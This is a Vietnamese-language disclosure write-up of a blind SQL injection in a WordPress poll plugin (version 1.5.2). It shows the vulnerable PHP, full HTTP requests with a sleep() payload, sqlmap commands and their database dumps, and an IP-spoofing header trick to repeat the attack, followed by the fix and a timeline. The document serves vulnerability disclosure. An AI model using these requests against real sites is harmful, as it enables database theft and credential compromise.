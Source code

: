 ```yaml
---
title: WordPress Plugin Poll, Survey, Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection
date: 5/07/2021
layout: single
--- 
```


## Mô tả
Tác giả khai thác: inspired - Toby Jackson

Một lỗ hổng đã được phát hiện trong plugin wpdevart wordpress "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.0 và 1.5.2. Có thể thực hiện chèn SQL mù vào tham số date_answers [] khi bỏ phiếu. Điều này có thể được sử dụng để kết xuất cơ sở dữ liệu back end. Phiên bản 1.5.2 yêu cầu thay đổi tiêu đề bằng phương pháp thích hợp để giả mạo địa chỉ IP, chẳng hạn như X-Forwarded-For

+ Nguồn khai thác (exploits/50052)[https://www.exploit-db.com/exploits/50052]
## Vulnerable Code 

Mã dễ bị tấn công nằm trong trang front_end.php trong hàm save_poll_in_databese (). Nó lấy $ question_id và $ current_user_ip trước khi lưu trữ phiếu bầu trong một biến có tên là $ new_voted_array, như được thấy bên dưới, từ tham số bài đăng date_answers

```php
$new_voted_array=$_POST['date_answers'];

```
Sau đó, mảng được lặp lại và biến $ new_answer được sử dụng như một phần của truy vấn where mà không bị khử trùng.

```php
if($new_voted_array)
  foreach($new_voted_array as $new_answer)  {
    $wpdb->query('UPDATE '.$wpdb->prefix.'polls SET vote = vote+1 WHERE `question_id` = '.$question_id.' AND `answer_name` = '.$new_answer.'');

```

## Demo 
```shell
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=sleep(10)
------

```
Bằng cách sử dụng điều này, cơ sở dữ liệu có thể dễ dàng được kết xuất bằng cách nắm bắt yêu cầu, với một bộ đánh chặn như burpsuite và sử dụng sqlmap. Bằng cách đặt dấu * tại điểm tiêm cần thiết, sqlmap sẽ kiểm tra vị trí này trước tiên.


```shell 
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=*
------

```
Lưu tập tin này dưới dạng  request.txt và chạy công cụ.

```shell
------
python sqlmap.py -r request.txt --dbms=mysql --dbs --level=5 --risk=3

[14:30:54] [INFO] testing MySQL
[14:30:54] [INFO] confirming MySQL
[14:30:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.46
back-end DBMS: MySQL >= 8.0.0
[14:30:54] [INFO] fetching database names
[14:30:54] [INFO] fetching number of databases
[14:30:54] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:30:54] [INFO] retrieved: 2
[14:30:54] [INFO] resumed: information_schema
[14:30:54] [INFO] resumed: wordpress
available databases [2]:
[*] information_schema
[*] wordpress
------
```
```shell
------
python sqlmap -r request.txt --dbms=mysql -D wordpress --tables --level=5 --risk=3

Database: wordpress
[19 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_democracy_a        |
| wp_democracy_log      |
| wp_democracy_q        |
| wp_links              |
| wp_options            |
| wp_polls              |
| wp_polls_question     |
| wp_polls_templates    |
| wp_polls_users        |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
------
```
Trong các phiên bản 1.5.1 và 1.5.2, lỗ hổng này chỉ xảy ra trong lần bỏ phiếu đầu tiên mà người dùng bỏ qua. Thêm tiêu đề X-Forwarded-For ngẫu nhiên vào các yêu cầu sẽ cho phép lặp lại cuộc tấn công như mô tả ở trên.

Điều này đã được chứng minh trong PoC sau

+ [https://youtu.be/Fj1zeXNxDYQ](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)
+ [https://youtu.be/P1r7gk0DSaM](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)

Kẻ tấn công có thể kết xuất cơ sở dữ liệu back-end của máy chủ và giành quyền truy cập vào thông tin đăng nhập của người dùng mà sau đó có thể được sử dụng để thực hiện các hành vi độc hại khác. Nếu được định cấu hình không chính xác, nó cũng có thể dẫn đến việc kẻ tấn công có thể thực thi mã từ xa trên máy chủ

## Nền tảng bị ảnh hưởng 
Các trang web WordPress chạy plugin "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.2 (các phiên bản cũ hơn cũng có thể bị ảnh hưởng).

## Cách khắc phục
Bản cập nhật đã được sửa trong phiên bản 1.5.3, vì vậy bạn nên cập nhật lên phiên bản này nếu sử dụng plugin.

## Thời gian công bố 

+ 9/6/2021: Lỗ hổng bảo mật được xác định.
+ 9/6/2021: Nhà phát triển đã thông báo về lỗ hổng bảo mật.
+ 9/6/2021: Nhà cung cấp trả lời để thảo luận chi tiết hơn về lỗ hổng bảo mật.
+ 9/6/2021: Đã gửi bằng chứng khái niệm cho nhà cung cấp và các khối mã bị ảnh hưởng.
+ 10/6/2021: Email của nhà cung cấp để thông báo lỗ hổng bảo mật đã được khắc phục.
+ 10/6/2021: Bản sửa lỗi ban đầu được xác nhận, nhà cung cấp vui lòng tiết lộ lỗ hổng bảo mật.
+ 10/6/2021: CVE được yêu cầu.
+ 19/6/2021: Liên hệ với WPScan để thảo luận về lỗ hổng bảo mật.
+ 19/6/2021: Bản sửa lỗi đã xác nhận không hợp lệ khi người dùng mới bỏ phiếu hoặc chỉnh sửa tiêu đề.
+ 10/6/2021: Đã liên hệ với nhà cung cấp để yêu cầu sửa chữa thêm.
+ 22/6/2021: Nhà cung cấp xác nhận bản sửa lỗi. Thông tin được công khai.
